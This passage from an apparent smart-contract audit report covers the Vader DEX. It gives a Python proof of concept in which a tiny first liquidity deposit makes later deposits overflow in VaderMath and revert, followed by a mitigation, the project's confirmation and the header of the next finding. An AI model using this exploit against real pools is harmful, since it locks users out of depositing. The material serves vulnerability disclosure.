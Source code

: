 #### Proof of Concept

```python

    deposit_amount = 1000 * 10**18
    get_token(dai, user, deposit_amount*3)
    get_token(vader, user, deposit_amount*3)
    dai.functions.approve(pool.address, deposit_amount*3).transact()
    link.functions.approve(pool.address, deposit_amount*3).transact()


    # deposit_amount = 1000 * 10**18

    # # first deposit 1 wei Dai and 1 vader to the pool
    router.functions.addLiquidity(dai.address, vader.address, 1, 10**18, user, 10**18).transact()
    print('received liquidity', pool.functions.positions(0).call()[2])
    # output log:
    # 1000000000000000000

    # normally deposit to the pool
    router.functions.addLiquidity(dai.address, vader.address, deposit_amount, deposit_amount, user, 10**18).transact()
    print('received liquidity', pool.functions.positions(1).call()[2])

    # output log:
    # 500000000000000000500000000000000000000

    # no one can deposit to the pool now
    # there would be revert

    router.functions.addLiquidity(dai.address, vader.address, 1, deposit_amount, user, 10**18).transact()

```

[VaderMath.sol#L42](https://github.com/code-423n4/2021-11-vader/blob/main/contracts/dex/math/VaderMath.sol#L42)

```solidity
    ((totalPoolUnits * poolUnitFactor) / denominator) * slip
```

Since the scale of the total supply is (10\*\*18)^2, the operation would overflow.

#### Tools Used

None

#### Recommended Mitigation Steps

Set a minimum deposit amount (both asset amount and native amount) for the first lp provider.

**[SamSteinGG (Vader) confirmed](https://github.com/code-423n4/2021-11-vader-findings/issues/109)**

## [[M-10] SHOULD CHECK RETURN DATA FROM CHAINLINK AGGREGATORS](https://github.com/code-423n4/2021-11-vader-findings/issues/120)
_Submitted by defsec_
